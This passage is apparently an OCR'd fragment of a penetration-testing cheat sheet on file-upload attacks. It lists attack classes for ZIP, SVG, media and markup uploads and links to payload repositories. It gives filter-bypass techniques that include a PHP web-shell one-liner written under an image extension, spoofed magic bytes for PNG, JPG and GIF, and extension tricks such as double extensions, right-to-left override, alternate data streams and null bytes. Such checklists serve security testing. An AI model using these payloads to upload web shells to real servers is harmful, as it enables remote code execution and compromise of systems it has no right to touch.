         *   [ZIP Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#zip-archive)
        *   [PHP Compression Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#picture-compression)
    *   MP4 / AVI / WAV
        *   [FFMPEG CVE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS)
    *   [SVG](https://github.com/allanlw/svg-cheatsheet)
        *   SSRF
        *   XSS
        *   XXE 
        *   LFI
        *   RCE
    *   XML / HTML / MD / CSS
        *   XSS
        *   LFI
    *   Arbitrary Read
        *   Upload Malicious File → Request / Download 
        *   Non-Textual Content  → `cat [DOWNLOADED_FILE] | grep [HEX_PORTION] | xxd -r -p > [OUTPUT]`
*   Filter Bypass
    *   Client-Side Validation
        *   Send Allowed File                     → Intercept Request
        *   Change Filename & Content → Send
    *   Type Confusion
        *   `Content-Type: image/[png/gif/jpeg]`
        *   [Fuzzing Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt)
        *   Double Header → Unallowed + Allowed
    *   MIME Confusion
        *   `echo '[BYTES]<?php system($_GET["cmd"]); ?>' > shell.[IMG_EXTENSION]`
        *   PNG → `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
        *   JPG  → `\xff\xd8\xff`
        *   GIF   → `GIF87a` / `GIF8` / `GIF8;`
    *   Extension Bypass
        *   [Extension Fuzzing](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
        *   Wrapping
            *   `.[EXECUTABLE].[ALLOWED]`
            *   `.[ALLOWED].[EXECUTABLE]`
            *   `.%E2%80%AE[EXECUTABLE].[ALLOWED]`
        *   Case Switching
            *   `PhP5`
            *   `ASp`
        *   Slash Break
            *   `.[EXECUTABLE]/`
            *   `.[EXECUTABLE].\`
            *   `.[EXEC\UTABLE]`
            *   `.[EXECU/TABLE]`
            *   `.[EXECUTABLE]/././././.`
        *   ADS Stream
            *   `file.[IIS_EXECUTABLE]:.[ALLOWED]`
            *   `file.[IIS_EXECUTABLE]::$data.`
        *   Character Injection
            *   `.[EXECUTABLE][STR].[ALLOWED]`
            *   `[STR].[EXECUTABLE].[ALLOWED]`
            *   `.[ALLOWED].[EXECUTABLE][STR]`
            *   `.[ALLOWED][STR].[EXECUTABLE]`
            *   Strings
                *   `%20` → `%0a` → `%0d0a`
                *   `;`     → `:`     → `...`
                *   `%00` → `\x00`
                *   [Homoglyphs](https://www.irongeek.com/homoglyph-attack-generator.php)
    *   Injection / XSS
        *   Filename